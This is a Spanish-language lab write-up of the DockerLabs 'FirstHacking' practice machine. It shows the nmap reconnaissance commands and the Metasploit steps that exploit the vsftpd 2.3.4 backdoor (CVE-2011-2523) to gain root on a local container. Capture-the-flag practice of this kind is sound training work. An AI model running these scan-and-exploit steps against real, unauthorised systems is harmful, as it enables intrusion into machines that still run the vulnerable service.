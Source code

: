 Machine name: First haking
plataforma: https://dockerlabs.es/#/
Dificultad: Muy facil
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw

Herramientas:
- [[Ping]]
- [[NMAP]]
- [[Metasploit]]


![[Dockerlabs - FirstHacking - Firsthacking machine.png]]
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```


![[Dockerlabs - FirstHacking - Despliegue.png]]
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```

![[Dockerlabs - FirstHacking - Ping para ver conectividad.png]]
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

![[Dockerlabs - FirstHacking - Nmpa reconocimiento.png]]

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```

![[Dockerlabs - FirstHacking - Nmap con exploit al puerto 21.png]]
tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```

![[Dockerlabs - FirstHacking - Metasploit encontrando el sploit.png]]


metaesploit configuramos el IP destino:
![[Dockerlabs - FirstHacking - Metaesploit configuracion de la IP del host.png]]m


Una vez configurado el metasploit lanzamos run para lanzar el ataque
![[Dockerlabs - FirstHacking - Correr metaesploit.png]]
conseguimos acceso con el usuario root:

![[root access.png]]